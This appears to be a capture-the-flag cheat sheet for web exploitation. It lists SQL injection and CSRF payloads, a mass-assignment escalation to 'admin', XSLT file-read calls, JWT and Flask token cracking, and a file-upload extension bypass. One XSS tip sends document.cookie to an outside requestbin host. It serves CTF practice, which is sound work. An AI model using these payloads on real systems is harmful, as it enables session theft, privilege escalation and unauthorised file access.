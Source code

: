 [BACK](../README.md)
# Web

- Inspect HTML
- Inspect JS
- Inspect Debug tab
- Inspect CSS
- Search for /robots.txt
  - Needs to be at the root of the website
- If the server is apache, try /.htaccess
- If MacOS: try /.DS_Store
- humans.txt
- Change user agent
- Try every verb
- Check cookie
  - try to modify it
When prompted for a password:

- Try switching request to put or post

## SQL Injection

```sql
' OR 1 = 1 UNION SELECT 1
```
If error:
- Try adding a limit to the amount of Rows
- Try adding more columns

#### If () are blocked:  
```javascript
 `${console.log`test`}`
 //instead of
 console.log("test")
 ```
## API
- Check OPTIONS verb
- Try every verb
- Check openAPI/SwaggerUI endpoint
- Try passing more fields in an "update" endpoint

ex: If the user object is this: 
```json
{
    "username":"username",
    "status":"user"
}
```
and the update endpoint asks for this:
```json
{
    "username":"username"
}
```
Pass this:
```json
{
    "username":"username",
    "status":"admin"
}
```

## Path Traversal

Useful to check:
- admin.php
- login.php
- Add ~ at the end of the php files
    - Vim backup files are stored with the file name + ~
- /etc/apache2/sites-enabled/000-default or /etc/apache2/sites-available/default
## XSS

To try to intercept requests from the page:

https://requestbin.myworkato.com/

Can add link to img src, or change window.location to this and add "?flag=" + document.cookie

### Different Angular XSS payloads
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/XSS%20in%20Angular.md
    
## JWT

- https://jwt.io/
- https://github.com/lmammino/jwt-cracker
  - Needed for `crackjwt.sh`
```bash
crackjwt.sh [jwtToken]
```

For RSA signed tokens:

- Burpsuite JWT Editor extension
  - Create a RSA key
  - In the repeater on the request sent with the cookie
  - "Attack" button -> Embedded JWK


## Flask/Python web

if urllib.parse used with urlsplit:
- add `a:` in front of the scheme to break the split (scheme returned in the url)
- add a `?` after the scheme to break (url returned in query)
- same with `#` to return everthing in fragment 

### Flask session token:
- https://github.com/Paradoxis/Flask-Unsign
  - Needed for `crack_flask_token.sh` and `edit_flask_token.sh`
- https://www.kirsle.net/wizards/flask-session.cgi

```bash
crack_flask_token.sh [token]
```

```bash
edit_flask_token.sh [payload] [secret]
```

## CSRF

To recognize:

- Only protection is a Session cookie
- no headers with "CSRF"

Payload example:
```html
<iframe style="display:none" name="csrf-frame"></iframe>
    <form  id="csrf-form" target="csrf-frame" action="[LINK]" method="[METHOD]" enctype="[ENCODING_TYPE]">
      <input type="text" name="[FIELD_NAME]" value="[WANTED_VALUE]" />
      <input type="submit" value="Submit" />
    </form>
<script>document.getElementById("csrf-form").submit()</script>
```

https://security.love/CSRF-PoC-Genorator/

- If there is a CSRF token sent with the request:
  - Try removing it
  - Try switching one char
  - Try switching it with one from another request

## XSLT

https://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20XSLT%20Processing%20Security%20and%20Server%20Side%20Request%20Forgeries%20-%20OWASP%20Switzerland%20Meeting%202015.pdf
Read file:
- document('[FILE_NAME]') (XSLT 1.0)
- unparsed_text('[FILE_NAME]') (XSLT 2.0)
- php:function('file_get_contents','[FILE_NAME]')
- php:function('opendir','[DIR]') -> php:function('readdir') * amount of files toread

## Mock Server/API:
https://beeceptor.com/

## File uplaod 
https://book.hacktricks.xyz/pentesting-web/file-upload
- Addd a %0a to the name of the file between the .png and .php
  - ex: test.png%0a.php

## Swagger endpoints:
- /swagger-ui/index.html
- /swagger
- /swagger-ui
- /docs
- /redoc
- /openapi.json